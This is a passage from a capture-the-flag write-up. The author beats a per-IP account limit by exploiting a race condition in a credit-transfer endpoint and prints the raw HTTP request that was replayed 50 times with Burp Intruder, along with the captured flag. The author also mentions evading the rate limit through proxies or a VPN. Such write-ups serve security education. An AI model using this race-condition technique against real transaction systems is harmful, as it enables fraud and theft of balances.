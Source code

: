 Running the script worked fine for a while but eventually only brought this error message:
```
Sorry little elf, only 15 accounts per hour
```

That limit must obviously be tied to the source IP so for a while I thought about using something like open proxies, thor or an anon VPN service to bypass it but somehow this didn't feel like it's the intended way. Also the challenge creator might have included the source IP in the base64 string to prevent that. Eventually I came up with the idea to check if there's a race condition in transferring the tokens, mostly because I saw a presentation on turbo intruder some days ago :) Before using turbo intruder or adapting my script, I used the normal burp to check if it's working at all. So I had my elf1 with the 15 credits from my script and used burp intruder to send 50 requests to transfer those tokens to elf2:

```

POST /?page=AM8d-Q14iCkl7ziCL21QQmMwV3hTZz098u96I6RF2VblRD0j0ZoF3w HTTP/1.1
Host: 3.93.128.89:1212
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://3.93.128.89:1212/?page=t8qOcoN5Sbwt3prCZWtZb0k4VWZWdz09i0fQBcK9P-ZaKoKj42dBZA
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: http://3.93.128.89:1212
DNT: 1
Connection: close
Cookie: PHPSESSID=5e4e4c3592a08600094d7988503e0f32; id=8dWx+VxM8zCzFLJUuWDVpk4dx78LOxEkMdFKKheC9Ms=
Upgrade-Insecure-Requests: 1
credits=15&destination=VU6N9yCsqBtrRc9CTVVLZG1NaldBQWxzQ0U0PaU8g-7rnVKOlW5cNiqDTtc&dummy=§§

```

Luckily it worked fast enough even with my kind of slow internet connection so elf2 had 150 credits after that. I transferred the tokens back to elf1 for 1500, back to elf2 and after reload the account page was blank and only showed the flag:

AOTW{S4n7A_c4nT_hAv3_3lF-cOnTroL_wi7H0uT_eLf-d1sCipl1N3}


